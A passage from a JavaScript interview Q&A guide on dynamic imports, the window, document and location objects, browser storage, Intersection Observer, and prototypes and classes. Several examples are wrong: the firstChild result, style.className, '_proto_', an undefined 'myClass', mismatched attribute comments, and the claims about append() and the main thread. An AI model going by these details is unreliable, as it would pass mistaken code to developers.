**Example: Lazy-loading a module**

```js
// math.js
export function add(a, b) { return a + b; }
export function multiply(a, b) { return a * b; }
```

```js
// main.js — only loads math.js when the button is clicked
document.getElementById('btn').addEventListener('click', async () => {
  const math = await import('./math.js');
  console.log(math.add(2, 3));      // 5
  console.log(math.multiply(4, 5)); // 20
});
```

**Example: Conditional import**

```js
const lang = navigator.language.startsWith('fr') ? 'fr' : 'en';
const messages = await import(`./locales/${lang}.js`);
console.log(messages.default.greeting);
```

**Key differences from static imports:**

| Feature         | Static `import` | Dynamic `import()` |
|-----------------|-----------------|---------------------|
| Location        | Top of file only | Anywhere in code    |
| Timing          | Compile time     | Runtime             |
| Returns         | Binding          | Promise             |
| Tree-shaking    | Yes              | Limited             |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

# # 12. WINDOW AND DOCUMENT OBJECT

<br>

## Q. What is the difference between window and document object?

**1. Window Object**: 

The window object is the topmost object of the DOM hierarchy. It represents a browser window or frame that displays the contents of the webpage. Whenever a window appears on the screen to display the contents of the document, the window object is created.

**Syntax:**

```js
window.property_name;
```

**Window Object Properties:**

|Property	        |Description                            |
|-----------------|---------------------------------------|
|closed	          |Returns a boolean true if a window is closed.|
|console	        |Returns the Console Object for the window.|
|document	        |Returns the Document object for the window.|
|frames	          |Returns all window objects running in the window.|
|history	        |Returns the History object for the window.|
|innerHeight	    |Returns the height of the window\'s content area (viewport) including scrollbars|
|innerWidth	      |Returns the width of a window\'s content area (viewport) including scrollbars|
|localStorage	    |Allows to save key/value pairs in a web browser. Stores the data with no expiration date|
|location	        |Returns the Location object for the window.|
|navigator	      |Returns the Navigator object for the window.|
|opener	          |Returns a reference to the window that created the window|
|outerHeight	    |Returns the height of the browser window, including toolbars/scrollbars|
|outerWidth     	|Returns the width of the browser window, including toolbars/scrollbars|
|pageXOffset	    |Returns the pixels the current document has been scrolled (horizontally) from the upper left corner of the window|
|pageYOffset	    |Returns the pixels the current document has been scrolled (vertically) from the upper left corner of the window|
|parent	          |Returns the parent window of the current window|
|screen	          |Returns the Screen object for the window|
|screenLeft	      |Returns the horizontal coordinate of the window relative to the screen|
|screenTop	      |Returns the vertical coordinate of the window relative to the screen|
|screenX	        |Returns the horizontal coordinate of the window relative to the screen|
|screenY	        |Returns the vertical coordinate of the window relative to the screen|
|sessionStorage	  |Allows to save key/value pairs in a web browser. Stores the data for one session|
|scrollX	        |An alias of pageXOffset|
|scrollY	        |An alias of pageYOffset|
|self	            |Returns the current window|
|top	            |Returns the topmost browser window|

**2. Document Object:** 

The document object represent a web page that is loaded in the browser. By accessing the document object, we can access the element in the HTML page. The document object can be accessed with a `window.document` or just `document`.

**Syntax:**

```js
document.property_name;
```

**Document Object Properties:**

|Property       	    |Description                         |
|---------------------|------------------------------------|
|addEventListener()	  |Attaches an event handler to the document|
|baseURI	            |Returns the absolute base URI of a document|
|body	                |Sets or returns the document\'s body (the `<body>` element)|
|characterSet	        |Returns the character encoding for the document|
|close()	            |Closes the output stream previously opened with document.open()|
|cookie	              |Returns all name/value pairs of cookies in the document|
|createAttribute()	  |Creates an attribute node|
|createElement()	    |Creates an Element node|
|createEvent()	      |Creates a new event|
|createTextNode()	    |Creates a Text node|
|defaultView	        |Returns the window object associated with a document, or null if none is available.|
|designMode	          |Controls whether the entire document should be editable or not.|
|doctype            	|Returns the Document Type Declaration associated with the document|
|documentElement	    |Returns the Document Element of the document (the <html> element)|
|documentURI	        |Sets or returns the location of the document|
|forms	              |Returns a collection of all `<form>` elements in the document|
|getElementById()	    |Returns the element that has the ID attribute with the specified value|
|getElementsByClassName()|	Returns an HTMLCollection containing all elements with the specified class name|
|getElementsByName()	|Returns an live NodeList containing all elements with the specified name|
|getElementsByTagName()|	Returns an HTMLCollection containing all elements with the specified tag name|
|images	              |Returns a collection of all `` elements in the document|
|normalize()	        |Removes empty Text nodes, and joins adjacent nodes|
|open()	              |Opens an HTML output stream to collect output from document.write()|
|querySelector()	    |Returns the first element that matches a specified CSS selector(s) in the document|
|querySelectorAll()	  |Returns a static NodeList containing all elements that matches a specified CSS selector(s) in the document|
|readyState	          |Returns the (loading) status of the document|
|referrer	            |Returns the URL of the document that loaded the current document|
|removeEventListener()|Removes an event handler from the document (that has been attached with the addEventListener() method)|
|title	              |Sets or returns the title of the document|
|URL	                |Returns the full URL of the HTML document|
|write()	            |Writes HTML expressions or JavaScript code to a document|
|writeln()	          |Same as write(), but adds a newline character after each statement|

**Difference:**

| Window | Document |
|------- | ---------|
| It is the root level element in any web page  | It is the direct child of the window object. This is also known as Document Object Model(DOM) |
| By default window object is available implicitly in the page | You can access it via window.document or document.  |
| It has methods like alert(), confirm() and properties like document, location | It provides methods like getElementById(), getElementByTagName(), createElement() etc  |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you access history in javascript?

The `window.history` object allows you to access the history stack of the browser. To navigate to a URL in the history, you use the `back()`, `forward()`, and `go()` methods. The `history.length` returns the number of URLs in the history stack.

**1. Move backward:**

```js
window.history.back();

// Or

history.back();
```

**2. Move forward:**

```js
history.forward();
```

**3. Move to a specific URL in the history:**

To move to a specific URL in the history stack, you use the `go()` method. The `go()` method accepts an integer that is the relative position to the current page. The current page\'s position is `0`.

```js
// to move backward a page
history.go(-1);

// To move forward a page
history.go(1)

// To refresh the current page
history.go(0);
history.go();
```

**4. Check history stack:**

```js
history.length
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you find operating system details?

The `window.navigator` object contains information about the visitor\'s browser os details. Some of the OS properties are avaialble under platform property,

**Example:**

```js
let OS = "Unknown";

if (navigator.userAgent.indexOf("Win") !== -1) OS = "Windows";
if (navigator.userAgent.indexOf("Mac") !== -1) OS = "MacOS";
if (navigator.userAgent.indexOf("X11") !== -1) OS = "UNIX";
if (navigator.userAgent.indexOf("Linux") !== -1) OS = "Linux";

console.log(OS);
console.log(navigator.userAgent);

// Output
Windows
VM87:8 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-os-details-lzppo0?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you detect a browser language preference?

You can use navigator object to detect a browser language preference as below,

```js
var language = navigator.languages && navigator.languages[0] || // Chrome / Firefox
              navigator.language ||   // All browsers
              navigator.userLanguage; // IE <= 10

console.log(language);
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is BOM?

The Browser Object Model (BOM) allows JavaScript to "talk to" the browser. It consists of the objects navigator, history, screen, location and document which are children of window. The Browser Object Model is not standardized and can change based on different browsers.

<p align="center">
  
</p>

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you redirect new page in javascript?

To redirect to a new URL or page, you assign the new URL to the `location.href` property or use the `location.assign()` method. The `location.replace()` method does redirect to a new URL but does not create an entry in the history stack of the browser.

**Example:**

```js
function redirect() {
  window.location.href = 'newPage.html';
}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-page-redirect-xc7221?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to get the current url with javascript?

The `window.location` object can be used to get the current page address (URL) and to redirect the browser to a new page. You can also use `document.URL` for **read-only** purpose.

**Location Properties:**

| Properties | Description                              |
|------------|------------------------------------------|
|href        |returns the href (URL) of the current page|
|hostname    |returns the domain name of the web host|
|pathname    |returns the path and filename of the current page|
|protocol    |returns the web protocol used (http: or https:)|
|assign()    |loads a new document|
|host        |The hostname and port of the URL|
|port        |The port number in the URL|
|search      |The query portion of the URL|
|hash        |The anchor portion of the URL|

**Example:**

```js
console.log('location.href', window.location.href); // Returns full URL
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-page-redirect-xc7221?file=/index.html)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to get query string values in javascript?

The `URLSearchParams()` provides an interface to work with query string parameters. The `has()` method of the `URLSearchParams()` determines if a parameter with a specified name exists.

**Example:** URLSearchParams()

```js
const urlParams = new URLSearchParams(window.location.search);
const clientCode = urlParams.get('clientCode');
```

The URLSearchParams() methods:

* **keys()** returns an iterator that iterates over the parameter keys.
* **values()** returns an iterator that iterates over the parameter values.
* **entries()** returns an iterator that iterates over the (key, value) pairs of the parameters.

**Example:** keys()

```js
const urlParams = new URLSearchParams('?type=list&page=20');

for (const key of urlParams.keys()) {
    console.log(key);
}

// Output
type
page
```

**Example:** values()

```js
const urlParams = new URLSearchParams('?type=list&page=20');

for (const value of urlParams.values()) {
    console.log(value);
}

// Output
list
20
```

**Example:** entries()

```js
const urlParams = new URLSearchParams('?type=list&page=20');

for (const entry of urlParams.entries()) {
    console.log(entry);
}

// Output
["type", "list"]
["page", "20"]
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-urlsearchparams-7mb02x?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between window.frames, window.parent and window.top in JavaScript?

* **window.frames** – the collection of "children" windows (for nested frames).
* **window.parent** – property returns the immediate parent of the current window
* **window.top** – returns the topmost window in the hierarchy of window objects

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the properties used to get size of window?

**1. The screen size:**

The screen size is the width and height of the screen: a monitor or a mobile screen.

<p align="center">
  
</p>

**Example:**

```js
const screenWidth  = window.screen.width;
const screenHeight = window.screen.height;
```

**2. The available screen size:**

The available screen size consists of the width and height of the active screen without the Operating System toolbars.

<p align="center">
  
</p>

**Example:**

```js
const availScreenWidth  = window.screen.availWidth;
const availScreenHeight = window.screen.availHeight;
```

**3. The window outer size:**

The window outer size consists of the width and height of the entire browser window, including the address bar, tabs bar, and other browser panels.

<p align="center">
  
</p>

**Example:**

```js
const windowOuterWidth  = window.outerWidth;
const windowOuterHeight = window.outerHeight;
```

**4. The window inner size:**

The window inner size (aka viewport size) consists of the width and height of the viewport that displays the web page.

<p align="center">
  
</p>

**Example:**

```js
const windowInnerWidth  = window.innerWidth;
const windowInnerHeight = window.innerHeight;
```

**5. The web page size:**

The web page size consists of the width and height of the page content rendered.

<p align="center">
  
</p>

**Example:**

```js
const pageWidth  = document.documentElement.scrollWidth;
const pageHeight = document.documentElement.scrollHeight;
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q 12.11 What are the ways to execute javascript after page load?

You can execute javascript after page load in many different ways, 

**1. window.onload:**

```js
window.onload = function ...
```

**2. document.onload:**

```js
document.onload = function ...
```

**3. body onload:**

```html
<body onload="script();">
```

**4. Defer the script:**

```html
<script src="deferMe.js" defer></script>
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between document load event and document domcontentloaded event?

**1. DOMContentLoaded:**

The `DOMContentLoaded` event is fired when the initial HTML document has been completely loaded and parsed, without waiting for stylesheets, images, and subframes to finish loading. DOMContentLoaded is a great event to use to hookup UI functionality to complex web pages.

**Example:**

```js
document.addEventListener("DOMContentLoaded", function(e) {
  console.log("DOM loaded!");
});
```

**2. loadEvent:**

The load event fires when all files have finished loading from all resources, including ads and images.

**Example:**

```js
document.addEventListener("load", function(e) {
  console.log("Page loaded!");
});
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What do you understand by Screen objects?

* **window**: is the execution context and global object for that context\'s JavaScript
* **document**: contains the DOM, initialized by parsing HTML
* **screen**: The screen object contains information about the visitor\'s screen.


| Property    | Description          |
|-------------|----------------------|
|availHeight	|Returns the height of the screen (excluding the Windows Taskbar)|
|availWidth	  |Returns the width of the screen (excluding the Windows Taskbar)|
|colorDepth	  |Returns the bit depth of the color palette for displaying images|
|height	      |Returns the total height of the screen|
|pixelDepth	  |Returns the color resolution (in bits per pixel) of the screen|
|width	      |Returns the total width of the screen|

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-screen-object-bxcuo9?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to change style of html element using javascript?

Below is the syntax for manipulating the style property on an HTML element using JavaScript:

**Syntax:**

```js
HTMLElement.style.property = "new style"
```

**1. Using Style Property:**

```js
// Example 01:
document.getElementById("title").style.fontSize = "30px";

// Example 02:
document.getElementById("message").style = "color:#f00;padding:5px;"
```

**2. Using ClassName Property:** 

```js
// Example 01:
document.getElementById("title").style.className = "custom-title";

// Example 02:
const x = document.getElementsByClassName("message");
       
for (i = 0; i < x.length; i++) {
  x[i].style = "padding:20px;border:1px solid #bbb;";
} 
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you print the contents of web page?

The window object provided print() method which is used to prints the contents of the current window. It opens Print dialog box which lets you choose between various printing options. 

**Example:**

```html
  <input type="button" value="Print" onclick="window.print()" />
```

*Note: In most browsers, it will block while the print dialog is open*.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do I modify the url without reloading the page?

The `window.localtion.url` property will be helpful to modify the url but it reloads the page. HTML5 introduced the `history.pushState()` and `history.replaceState()` methods, which allow you to add and modify history entries, respectively. 

**Example:**

```js
window.history.pushState('newPage', 'Title', '/newPage.html');
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between an attribute and a property?

Attributes are defined on the HTML markup whereas properties are defined on the DOM. For example, the below HTML element has 2 attributes type and value,

```html
<input type="text" value="Name:">
```

You can retrieve the attribute value as below,

```js
const input = document.querySelector('input');
console.log(input.getAttribute('value')); // Good morning
console.log(input.value); // Good morning
```

And after you change the value of the text field to "Good evening", it becomes like

```js
console.log(input.getAttribute('value')); // Good morning
console.log(input.value); // Good evening
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between firstChild and firstElementChild?

**1. firstChild:**

The firstChild property returns the first child node of the specified node, as a Node object.

```html
<ul id="myList">
    <li>Coffee</li>
    <li>Tea</li>
</ul>
```

```js
let list = document.getElementById("myList").firstChild.innerHTML; // Coffee
```

**2. firstElementChild:**  

The firstElementChild property returns the first child element of the specified element.

```html
<ul id="myList">
  <li>Coffee</li>
  <li>Tea</li>
</ul>
```

```js
let list = document.getElementById("myList").firstElementChild.innerHTML; // Coffee
```

**Difference:**

**firstChild** returns the first child **node** (an element node, a text node or a comment node). Whitespace between elements are also text nodes.

**firstElementChild** returns the first child **element** (not text and comment nodes).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between document.getElementById() and document.querySelector()?

**1. document.getElementById():**

Returns an element object representing the element whose id property matches the specified string. Since element IDs are required to be unique if specified, they're a useful way to get access to a specific element quickly.

```js
element = document.getElementById(id);
```

**2. document.querySelector():**

Returns the first matching Element node within the node\'s subtree. If no matching node is found, null is returned.

```js
element = document.querySelector(selectors);
```

**3. document.querySelectorAll():**

Returns a NodeList containing all matching Element nodes within the node\'s subtree, or an empty NodeList if no matches are found.

```js
element = document.querySelectorAll(selectors);
```

*Note: `querySelector()` is more useful when we want to use more complex selectors*.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Name the two functions that are used to create an HTML element dynamically?

In an HTML document, the `document.createElement()` method creates the HTML element specified by tagName.

**Syntax:**

```js
const element = document.createElement(tagName[, options]);
```

HTML

```html
<!DOCTYPE html>
<html>
  <head>
      <title>||Working with elements||</title>
  </head>
<body>
  <div id="app">The text above has been created dynamically.</div>
</body>
</html>
```

JavaScript

```js
document.body.onload = addElement;

function addElement () { 
  // create a new div element 
  var newDiv = document.createElement("div"); 

  var newContent = document.createTextNode("Hi there and greetings!"); 
  // add the text node to the newly created div
  newDiv.appendChild(newContent);  

  // add the newly created element and its content into the DOM 
  var currentDiv = document.getElementById("app"); 
  document.body.insertBefore(newDiv, currentDiv); 
}
```

**Create Dynamic Button:**

```js
// Create a button

let btn = document.createElement("BUTTON");
btn.innerHTML = "CLICK ME";
document.body.appendChild(btn);
```

**Removing Elements Dynamically:** 

```js
// Removes an element from the document

function removeElement(elementId) {    
  let element = document.getElementById(elementId);
  element.parentNode.removeChild(element);
}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-html-element-iyq2ck?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between append() vs appendChild()? 

* ParentNode.append() allows you to also append DOMString object, whereas Node.appendChild() only accepts Node objects.
* ParentNode.append() has no return value, whereas Node.appendChild() returns the appended Node object.
* ParentNode.append() can append several nodes and strings, whereas Node.appendChild() can only append one node.

The main difference is that `appendChild()` is a DOM function meanwhile `append()` is a JavaScript function.
```js
document.getElementById("yourId").append("Hello");

var p = document.createElement("p");
document.getElementById("yourId").appendChild(p);
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to check if page is fully loaded using javascript?

```js
if (document.readyState === 'complete') {
  // The page is fully loaded
}
```
<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a web-storage event and its event handler?

The StorageEvent is an event that fires when a storage area has been changed in the context of another document. Whereas onstorage property is an EventHandler for processing storage events.
The syntax would be as below

```js
  window.onstorage = functionRef;
```

Let us take the example usage of onstorage event handler which logs the storage key and its values

```js
if (typeof(Storage) !== "undefined") {
  window.onstorage = function(e) {
    console.log('The ' + e.key +
      ' key has been changed from ' + e.oldValue +
      ' to ' + e.newValue + '.');
  };
} else {
  // Browser doesnot support web-storage 
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between localStorage, sessionStorage, cookies, and IndexedDB?

All four are browser-side storage mechanisms, but they differ in lifetime, scope, capacity, and use case.

| Feature | `localStorage` | `sessionStorage` | Cookies | IndexedDB |
|---------|--------------|----------------|---------|-----------|
| **Lifetime** | Until explicitly cleared | Until tab/window closes | Configurable (session or expiry date) | Until explicitly deleted |
| **Scope** | Origin (protocol + domain + port) | Origin + tab | Domain + path | Origin |
| **Sent to server** | Never | Never | With every HTTP request | Never |
| **Storage limit** | ~5–10 MB | ~5 MB | ~4 KB per cookie | Hundreds of MB |
| **API type** | Synchronous | Synchronous | Synchronous | Asynchronous (event-based) |
| **Data type** | Strings only | Strings only | Strings only | Structured data, blobs |
| **Accessible in Service Worker** | No | No | No | Yes |

**localStorage example:**

```js
// Persist across sessions
localStorage.setItem('theme', 'dark');
const theme = localStorage.getItem('theme'); // 'dark'
localStorage.removeItem('theme');
localStorage.clear();
```

**sessionStorage example:**

```js
// Data lives only for the tab\'s lifetime
sessionStorage.setItem('formData', JSON.stringify({ step: 2 }));
const formData = JSON.parse(sessionStorage.getItem('formData'));
```

**Cookie example:**

```js
// Set a cookie that expires in 7 days
document.cookie = 'user=Alice; max-age=604800; path=/; Secure; SameSite=Strict';

// Read all cookies
console.log(document.cookie); // 'user=Alice'
```

**When to use which:**

* `localStorage` — user preferences, theme, language (persistent, no server needed).
* `sessionStorage` — multi-step form state, temporary auth tokens per tab.
* `Cookies` — authentication tokens sent with every request, CSRF tokens, tracking (can be made `HttpOnly` for security).
* `IndexedDB` — large structured datasets, offline apps, file/blob storage.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the Intersection Observer API?

The **Intersection Observer API** provides a way to asynchronously observe changes in the intersection of a target element with an ancestor element or the viewport. It is commonly used for lazy loading images, infinite scrolling, and triggering animations when elements come into view — all without scroll event listeners that can hurt performance.

**Syntax:**

```js
const observer = new IntersectionObserver(callback, options);
observer.observe(targetElement);
```

**Options:**

| Option | Description | Default |
|--------|-------------|---------|
| `root` | Ancestor to use as viewport (`null` = browser viewport) | `null` |
| `rootMargin` | Margin around root (like CSS margin) | `'0px'` |
| `threshold` | Ratio of target visibility to trigger callback (0–1 or array) | `0` |

**Example — Lazy loading images:**

```js
const images = document.querySelectorAll('img[data-src]');

const observer = new IntersectionObserver((entries) => {
  entries.forEach(entry => {
    if (entry.isIntersecting) {
      const img = entry.target;
      img.src = img.dataset.src;     // load the real image
      img.removeAttribute('data-src');
      observer.unobserve(img);       // stop observing once loaded
    }
  });
}, { rootMargin: '200px' });        // start loading 200px before visible

images.forEach(img => observer.observe(img));
```

**Example — Infinite scroll:**

```js
const sentinel = document.querySelector('#load-more-sentinel');

const observer = new IntersectionObserver((entries) => {
  if (entries[0].isIntersecting) {
    loadMoreItems();
  }
}, { threshold: 1.0 });

observer.observe(sentinel);
```

*Note: Intersection Observer is far more performant than listening to `scroll` events because it does not run on the main thread.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

# # 13. CLASSES

<br>

## Q. Explain how prototypal inheritance works?

The Prototypal Inheritance is a feature in javascript used to add methods and properties in objects. It is a method by which an object can inherit the properties and methods of another object.

In order to get and set the [[Prototype]] of an object, we use `Object.getPrototypeOf()` and `Object.setPrototypeOf()`. Nowadays, in modern language, it is being set using `__proto__`.

**Syntax:**

```js
ChildObject.__proto__ = ParentObject
```

**Example:**

In the given example, there are two objects **ParentUser** and **ChildUser**. The object ChildUser inherits the methods and properties of the object ParentUser and further uses them.

```js
// Parent Object
let ParentUser = {
  talk: true,
  Canfly() {
    return "Sorry, Can\'t fly";
  },
};

// Child Object
let ChildUser = {
  CanCode: true,
  CanCook() {
    return "Can\'t say";
  },

  //  Inheriting the properties and methods of Parent Object
  __proto__: ParentUser,
};

// Property of Parent Object
console.log("Can a User talk?: " + ChildUser.talk);

// Method of ParentUser
console.log("Can a User fly?: " + ChildUser.Canfly());

// Property of ChildUser
console.log("Can a User code?: " + ChildUser.CanCode);

// Method of ChildUser
console.log("Can a User cook?: " + ChildUser.CanCook());
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-prototypal-inheritance-qxp33h?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between prototype and __proto__ in JavaScript?

**1. Proto**: 

It is an actual object that provides a way inherit to inherit properties from JavaScript with the help of an object which is created with new. Every object with behavior associated has internal property [[prototype]].

**Syntax:**

```js
Object.__proto__ = value
```

**Example:**

```js
function Employee(id, name) {
  this.id = id;
  this.name = name;
}
const employee = new Employee(1090, "Sarvesh Ghose");

// Object have proto property
employee

// Also if apply strict equal to check
// if both point at the same
// location then it will return true.
Employee.prototype === employee._proto_ // false
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-proto-sqkxeb?file=/src/index.js)**

**2. Prototype**: 

It is a special object which means it holds shared attributes and behaviors of instances. It is a way to inherit properties from javascript as it is available in every function declaration.

**Syntax:**

```js
objectTypeName.prototype.SharedPropertyName = value;
```

**Example:**

```js
// Constructor function
function Employee(id, name) {
  this.id = id;
  this.name = name;
}

// Objects
const employee = new Employee(3325, "Karishma Som");

// Prototype
Employee.prototype.getName = function () {
  return this.name;
};

// Function call using object
console.log(employee.getName());
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-prototype-wvh93l?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the differences between ES6 class and ES5 function constructors?

Classes are a template for creating objects. They encapsulate data with code to work on that data. Classes in JS are built on prototypes but also have some syntax and semantics that are not shared with ES5 class-like semantics. 

ES6 Classes formalize the common JavaScript pattern of simulating class-like inheritance hierarchies using functions and prototypes. They are effectively simple sugaring over prototype-based OO, offering a convenient declarative form for class patterns which encourage interoperability.

ES6 Class Properties

* Class keyword
* getter/setter method
* constructor function
* extends keyword
* super keyword
* static keyword

**Example:** ES5 Function Constructor

```js
// ES5 Function Constructor
function Student(name, studentId) {
  // Call constructor of superclass to initialize superclass-derived members.
  Person.call(this, name);

  // Initialize subclass\'s own members.
  this.studentId = studentId;
}

Student.prototype = Object.create(Person.prototype);
Student.prototype.constructor = Student;
```

**Example:** ES6 Class

```js
// ES6 Class
class Student extends Person {
  constructor(name, studentId) {
    super(name);
    this.studentId = studentId;
  }
}
```

It\'s much more verbose to use inheritance in ES5 and the ES6 version is easier to understand and remember.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is class expression in es6 class?

A class expression is another way to define a class. Class expressions can be named or unnamed. The name given to a named class expression is local to the class\'s body. However, it can be accessed via the name property.

**Example:**

```js
// Unnamed Class
let Rectangle = class {
  constructor(height, width) {
    this.height = height;
    this.width = width;
  }
};
console.log(Rectangle.name); // Rectangle

// Named Class
let Triangle = class TriangleClass {
  constructor(base, height) {
    this.base = base;
    this.height = height;
  }
};
console.log(Triangle.name); // TriangleClass
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-class-expression-nqbyr2?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between private, public and static variables?

Private variables can be accessed by all the members (functions and variables) of the owner object but not by any other object. Public variables can be accessed by all the members of the owner as well as other objects that can access the owner.
Static variables are related to a class. They come into existence as soon as a class come into existence.

**Example:**

```js
// Constructor Function
function MyClass () {
 
  var privateVariable = "I am private!";  // Private variable 
  this.publicVariable = "I am public!";  // Public variable 

  this.publicMethod = function () {  // Public Method
    return privateVariable;
  };
}

// Instance method will be available to all instances but only load once in memory 
MyClass.prototype.publicMethod = function () {    
  return this.publicVariable;
};

// Static variable shared by all instances
MyClass.staticProperty = "I am static!";

var myInstance = new MyClass();

console.log(myClass.publicMethod()); // I am private! 
console.log(MyClass.staticProperty); // I am static! 
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-variable-scope-rgjsm4?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between Classic Inheritance and Prototypical Inheritance?

**1. Class Inheritance**: 

Instances inherit from classes (like a blueprint — a description of the class), and create sub-class relationships: hierarchical class taxonomies. Instances are typically instantiated via constructor functions with the new keyword. Class inheritance may or may not use the class keyword from ES6.

**2. Prototypal Inheritance**: 

Instances inherit directly from other objects. Instances are typically instantiated via factory functions or Object.create(). Instances may be composed from many different objects, allowing for easy selective inheritance.

**Features**  

* Classes: create tight coupling or hierarchies/taxonomies.
* Prototypes: mentions of concatenative inheritance, prototype delegation, functional inheritance, object composition.
* No preference for prototypal inheritance & composition over class inheritance.

The difference between classical inheritance and prototypal inheritance is that classical inheritance is limited to classes inheriting from other classes while prototypal inheritance supports the cloning of any object using an object linking mechanism. A prototype basically acts as a template for other objects, whether they are extending the base object or not.

**Example:**

```js
function Circle(radius) {
  this.radius = radius;
}

Circle.prototype.area = function () {
  let radius = this.radius;
  return Math.PI * radius * radius;
};

Circle.prototype.circumference = function () {
  return 2 * Math.PI * this.radius;
};

const circle = new Circle(5);

console.log(circle.area()); // 78.53981633974483
console.log(circle.circumference()); // 31.41592653589793
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-prototypical-inheritance-iyxh6u?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you create an object with prototype?

The `Object.create()` method is used to create a new object with the specified prototype object and properties. i.e, It uses existing object as the prototype of the newly created object. It returns a new object with the specified prototype object and properties.

**Example:**

```js
const user = {
  name: "Jayesh Sahni",
  printInfo: function () {
    console.log(`My name is ${this.name}.`);
  }
};

const admin = Object.create(user);
admin.name = "Disha Choudhry"; // Here, "name" is a property set on "admin" but not on "user" object
admin.printInfo(); // My name is Disha Choudhry
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-object-create-skyznx?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to use constructor functions for inheritance in JavaScript?

Let say we have `Person` class which has name, age, salary properties and **incrementSalary()** method.

```js
// Functions Constructor
function Person(name, age, salary) {
  this.name = name;
  this.age = age;
  this.salary = salary;
  this.incrementSalary = function (byValue) {
    this.salary = this.salary + byValue;
  };
}
```

Now we wish to create Employee class which contains all the properties of Person class and wanted to add some additional properties into Employee class.

```js
function Employee(company){
	this.company = company;
}

// Prototypal Inheritance 
Employee.prototype = new Person("Sundar Pichai", 24, 5000);
```

In the example above, **Employee** type inherits from **Person**. It does so by assigning a new instance of `Person` to `Employee` prototype. After that, every instance of `Employee` inherits its properties and methods from `Person`.

```js
// Prototypal Inheritance 
Employee.prototype = new Person("Sundar Pichai", 24, 5000);

var employee = new Employee("Google");

console.log(employee instanceof Person); // true
console.log(employee instanceof Employee); // true
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-prototypal-inheritance-djtiuh?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is prototype chain?

**Prototype chaining** is used to build new types of objects based on existing ones. It is similar to inheritance in a class based language. The prototype on object instance is available through `Object.getPrototypeOf(object)` or `__proto__` property whereas prototype on constructors function is available through **Object.prototype**.

**Example:**

```js
function Person(firstName, lastName, age) {
  this.firstName = firstName;
  this.lastName = lastName;
  this.age = age;
}
// Prototype chaining
Person.prototype.getFullName = function () {
  return this.firstName + " " + this.lastName;
};

// create an instance of the Person class
const person = new Person("Vanya", "Dayal", 25);

person.hasOwnProperty("firstName"); // true
person.hasOwnProperty("getFullName"); // false
person.getFullName(); // Vanya Dayal
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-prototype-chaining-9fvow6?file=/src/index.js)**

<div align="right">
